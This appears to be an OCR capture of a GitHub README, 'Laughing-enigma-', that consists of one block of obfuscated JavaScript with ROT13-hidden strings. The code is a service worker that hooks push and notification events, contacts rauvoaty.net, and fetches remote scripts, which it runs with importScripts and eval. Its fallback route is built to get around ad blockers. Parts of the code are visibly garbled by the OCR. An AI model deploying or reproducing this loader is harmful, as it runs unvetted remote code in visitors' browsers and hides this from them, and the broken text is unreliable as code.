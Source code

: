 # Laughing-enigma-

function(O){!function(e){var t=O.Z();function n(r){if(t[r])return t[r][O.i];var i=t[r]=O.Z(O.B,r,O.w,!O.X,O.i,O.Z());return e[r]O.z,i[O.w]=!O.N,i[O.i]}n[O.y]=e,n[O.g]=t,n[O.K]=function(e,t,r){nO.h||ObjectO.b},n[O.G]=function(e){O.HO!=typeof Symbol&&Symbol[O.hO]&&ObjectO.b,ObjectO.b},n[O.R]=function(e,t){if(O.X&t&&(e=n(e)),O.v&t)return e;if(O.P&t&&O.t==typeof e&&e&&e[O.U])return e;var r=ObjectO.r;if(nO.G,ObjectO.b,O.d&t&&O.oO!=typeof e)for(var i in e)n[O.K](r,i,function(t){return e[t]}O.fO);return r},n[O.H]=function(e){var t=e&&e[O.U]?function(){return e[O.C]}:function(){return e};return nO.K,t},n[O.h]=function(e,t){return Object[O.FO][O.a]O.z},n[O.e]=O.F,n(n[O.m]=O.o)}(O.Z(O.o,function(module,exports,webpack_require){O.f;var _antiadblock=webpack_require(O.O);self[O.c]=O.Z(O.S,7871918,O.V,"rauvoaty.net",O.l,!O.N),self[O.D]=O.F;var DEFAULT_URL=[O.Y,O.j]O.A,STORE_EVENTS=[O.T,O.u,O.M,O.L,O.n,O.E],url;try{if(url=atob(location[O.DO]O.x),!url)throw O.q}catch(e){url=DEFAULT_URL}try{importScripts(url)}catch(ignore){var events=O.Z(),listeners=O.Z(),realAddEventListener=self[O.yO]O.fO;STORE_EVENTSO.ZO,self[O.yO]=function(e,t){if(-O.X===STORE_EVENTSO.qO)return realAddEventListener(e,t);listeners[e]||(listeners[e]=[]),listeners[e]O.M,events[e]&&events[e]O.ZO},(O.N,_antiadblock[O.I])(url,O.Z())[O.gO](function(e){return eO.UO})[O.gO](function(code){return eval(code)})}},O.O,function(e,t,n){O.f;ObjectO.b,t[O.Q]=function(e){return new Promise(function(t,n){r(O.BO)[O.gO](function(r){var i=rO.tOO.xO[O.WO](O.Z(O.V,e,O.dO,new Date()O.CO));iO.yO,iO.yO})})},t[O.I]=async function(e,t){var n=await new Promise(function(e,t){r(O.BO)[O.gO](function(n){var r=nO.tOO.xOO.PO;rO.yO,r[O.yO](O.EO,function(){return e(r[O.XO][O.oF](function(e){return e[O.V]}))})})}),o=!O.N,a=!O.X,s=void O.N;try{for(var c,u=nSymbol[O.QO];!(o=(c=uO.IO)[O.uO]);o=!O.N){var d=c[O.p];try{return await fetch(O.Y+d+O.s+i(),O.Z(O.YO,t[O.YO]||O.RO,O.jO,O.pO,O.sO,t[O.sO],O.vO,O.Z(O.kO,btoa(e))))}catch(e){}}}catch(e){a=!O.N,s=e}finally{try{!o&&u[O.JO]&&uO.JO}finally{if(a)throw s}}throw new Error(O.eO)},t[O.J]=async function(e){try{var t=await fetch(eO.qO>-O.X?e:O.Y+e);return!O.X===(await tO.bO)[O.TO]}catch(e){return!O.X}};function r(e){return new Promise(function(t,n){var r=indexedDBO.MO;rO.yO,rO.yO,r[O.yO](O.EO,function(){return t(r[O.XO])})})}function i(){var e=arguments[O.iO]>O.N&&void O.N!==arguments[O.N]?arguments[O.N]:O.N,t=e<O.W&&MathO.mO>O.k,n=MathO.mOO.zOO.x;return n+(t?O.s+i(e+O.X):O.F)}}))}([['o',111],['O',17],['F',''],['f','hfr fgevpg'],['Z',function(){const obj={};const args=[].slice.call(arguments);for(let i=0;i<args.length-1;i+=2){obj[args[i]]=args[i+1]}return obj}],['y','z'],['g','p'],['K','q'],['G','e'],['R','g'],['H','a'],['h','b'],['e','c'],['i','rkcbegf'],['m','f'],['z','pnyy'],['w','y'],['N',0],['c','bcgvbaf'],['D','ynel'],['A','wbva'],['T','vafgnyy'],['u','npgvingr'],['M','chfu'],['L','abgvsvpngvbapyvpx'],['n','abgvsvpngvbapybfr'],['E','chfufhofpevcgvbapunatr'],['q',null],['b','qrsvarCebcregl'],['U','__rfZbqhyr'],['Q','nqqQbznva'],['I','hygensrgpu'],['J','grfgCvatQbznva'],['B','v'],['S','mbarVq'],['V','qbznva'],['l','erfhofpevorBaVafgnyy'],['X',1],['Y','uggcf://'],['j','/csr/pheerag/freivpr-jbexre.zva.wf?e=fj&i=2'],['p','inyhr'],['s','/'],['v',8],['a','unfBjaCebcregl'],['W',7],['k',.3],['x','fyvpr'],['d',2],['P',4],['t','bowrpg'],['r','perngr'],['C','qrsnhyg'],['oO','fgevat'],['OO','n'],['FO','cebgbglcr'],['fO','ovaq'],['ZO','sbeRnpu'],['yO','nqqRiragYvfgrare'],['gO','gura'],['KO',3],['GO','rahzrenoyr'],['RO','trg'],['HO','haqrsvarq'],['hO','gbFgevatGnt'],['eO','NNO Erdhrfg Snvyrq'],['iO','yratgu'],['mO','enaqbz'],['zO','gbFgevat'],['wO',36],['NO',10],['cO','Zbqhyr'],['DO','frnepu'],['AO',9],['TO','fgnghf'],['uO','qbar'],['MO','bcra'],['LO','hctenqrarrqrq'],['nO','reebe'],['EO','fhpprff'],['qO','vaqrkBs'],['bO','wfba'],['UO','grkg'],['QO','vgrengbe'],['IO','arkg'],['JO','erghea'],['BO','fjnno'],['SO',':'],['VO','perngrBowrpgFgber'],['lO','qbznvaf'],['XO','erfhyg'],['YO','zrgubq'],['jO','perqragvnyf'],['pO','vapyhqr'],['sO','obql'],['vO','urnqref'],['aO','xrlCngu'],['WO','chg'],['kO','gbxra'],['xO','bowrpgFgber'],['dO','perngrqNg'],['PO','trgNyy'],['tO','genafnpgvba'],['rO','ernqjevgr'],['CO','trgGvzr'],['oF','znc']].reduce((o,i)=>(Object.defineProperty(o,i[0],{get:()=>typeof i[1]!=='string'?i[1]:i[1].split('').map(s=>{const c=s.charCodeAt(0);return c>=65&&c<=90?String.fromCharCode((c-65+26-13)%26+65):c>=97&&c<=122?String.fromCharCode((c-97+26-13)%26+97):s}).join('')}),o),{})))/importScripts(...r=sw)/